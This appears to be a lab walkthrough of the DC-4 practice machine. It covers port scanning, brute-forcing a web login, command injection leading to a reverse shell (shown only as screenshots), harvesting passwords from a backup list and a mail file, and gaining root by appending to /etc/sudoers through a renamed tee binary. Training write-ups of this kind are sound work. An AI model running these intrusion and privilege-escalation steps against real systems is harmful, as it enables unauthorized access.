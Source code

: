 # PG Play - DC-4

#### Ip: 192.168.176.195
#### Name: DC-4
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/DC-4]
└─$ sudo nmap -p-  192.168.176.195 --min-rate 10000
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-25 13:11 CDT
Nmap scan report for 192.168.176.195
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/DC-4]
└─$ sudo nmap -sC -sV 192.168.176.195 -p 22,80            
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-25 13:11 CDT
Nmap scan report for 192.168.176.195
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d6057066c27e02f762ce642c001ba25 (RSA)
|   256 e7838cd7bb84f32ee8a25f796f8e1930 (ECDSA)
|_  256 fd39478a5e58339973739e227f904f4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-title: System Tools
|_http-server-header: nginx/1.15.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.89 seconds
```

Heading over to the site on port 80 we find a basic login screen.

site.png

Taking a look at the page source we can see the form is making a POST request on `/login.php`

Lets use Hydra to try and bruteforce the admin user's password:

brute.png

Nice, Hydra found a password!

Logging into the site we see we can follow a link to `/command.php`,  which in turn lets us select a few different commands we can run against the system:

command.png

list.png

Lets catch this in Burp and see what else we can find:

Interesting, we can see that commands are being executing in the `radio` field (I think these are called radio buttons in HTML)

burp.png

We can confirm we have code execution here by inputing the command `pwd` into the field (which wasn't an option in the GUI) and getting a valid response:

pwd.png

### Exploitation

We can exploit this but issuing a reverse shell command here:

burp2.png

Which gets us a shell back in our NetCat listener:

shell.png

We can then grab the local.txt flag in Jim's directory:

user_flag.png

### Privilege Escalation

Looking around the machine I find a file called `old-passwords.bak`

```text
www-data@dc-4:/home/jim/backups$ cat old-passwords.bak 
000000
12345
iloveyou
1q2w3e4r5t
1234
123456a
qwertyuiop
monkey
123321
dragon
654321
666666
123

<SNIP>
```

Lets copy the list back to our attacking machine and try to bruteforce the passwords for SSH as user Jim:

brute2.png

Cool, that worked:

```text
┌──(ryan㉿kali)-[~/PG/DC-4]
└─$ ssh jim@192.168.176.195       
The authenticity of host '192.168.176.195 (192.168.176.195)' can't be established.
ED25519 key fingerprint is SHA256:0CH/AiSnfSSmNwRAHfnnLhx95MTRyszFXqzT03sUJkk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.176.195' (ED25519) to the list of known hosts.
jim@192.168.176.195's password: 
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$ hostname
dc-4
```

Checking out the `/var/mail` directory, we find an interesting file called `jim`:

```text
jim@dc-4:/var/mail$ cat jim
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```
Cool, another credential. Lets `su` over to user charles:

```text
jim@dc-4:/var/mail$ su charles
Password: 
charles@dc-4:/var/mail$ whoami
charles
```

If we run `sudo -l` to see what we can run wiht elevated permissions we find something called teehee:

```text
charles@dc-4:/var/mail$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

I'm wondering if this is just `tee` but with a different name?

Lets try adding charles to the sudoers file using `tee`:

```text
charles@dc-4:/var/mail$ echo "charles ALL=(ALL:ALL) ALL" | sudo /usr/bin/teehee /etc/sudoers
charles ALL=(ALL:ALL) ALL 
charles@dc-4:/var/mail$ sudo su root

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for charles: 
root@dc-4:/var/mail# whoami && hostname
root
dc-4
```
Nice, that worked!

All we need to do now is grab the proof.txt flag:

root_flag.png

Thanks for following along!

-Ryan

---------------------------------------------